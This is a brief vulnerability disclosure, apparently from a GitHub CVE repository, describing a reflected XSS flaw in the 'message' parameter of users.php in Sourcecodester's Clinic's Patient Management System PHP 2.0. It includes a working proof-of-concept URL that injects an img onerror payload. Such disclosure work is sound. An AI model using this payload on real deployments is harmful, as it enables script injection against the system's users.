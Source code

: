 # Reflected XSS vulnerability was discovered in Sourcecodester's Clinic's Patient Management System - PHP 2.0 (message)
---

---
Affected Project: Sourcecodester Clinic's Patient Management System - PHP 2.0

Official Website: [Sourcecodester Clinic's Patient Management System](https://www.sourcecodester.com/php-clinics-patient-management-system-source-code)

Version: 2.0

Releted Code: users.php
*Line Number: 256-259*

![image](https://github.com/gurudattch/CVEs/blob/main/assets/14.png)

---

![image1](https://github.com/gurudattch/CVEs/blob/main/assets/15.png)

---

Add the XSS payload in **message** parameter

`http://192.168.95.115/users.php?message="><img src=x onerror=alert()>`

---

![image2](https://github.com/gurudattch/CVEs/blob/main/assets/16.png)
